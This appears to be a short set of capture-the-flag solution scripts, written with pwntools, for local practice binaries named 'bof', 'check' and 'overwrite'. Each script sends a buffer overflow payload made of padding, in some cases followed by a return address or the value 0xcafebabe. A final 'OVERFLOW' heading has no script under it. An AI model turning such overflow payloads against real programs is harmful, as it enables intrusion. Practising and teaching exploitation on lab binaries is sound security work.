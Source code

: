 # ***BOF***

```
from pwn import *
io = process("./bof")
payload = b"A"*40
payload += p64(0x00000000004011b6)
io.sendline(payload)
io.interactive()
```
# ***CHECK***

```
from pwn import*
io = process("./check")
payload = b"A"*21
io.sendline(payload)
io.interactive()
```

# ***OVERWRITE***

```
from pwn import*
io= process("./overwrite")
payload = b"A"*160
payload += p64(0xcafebabe)
io.sendline(payload)
io.interactive()
```

# ***OVERFLOW***
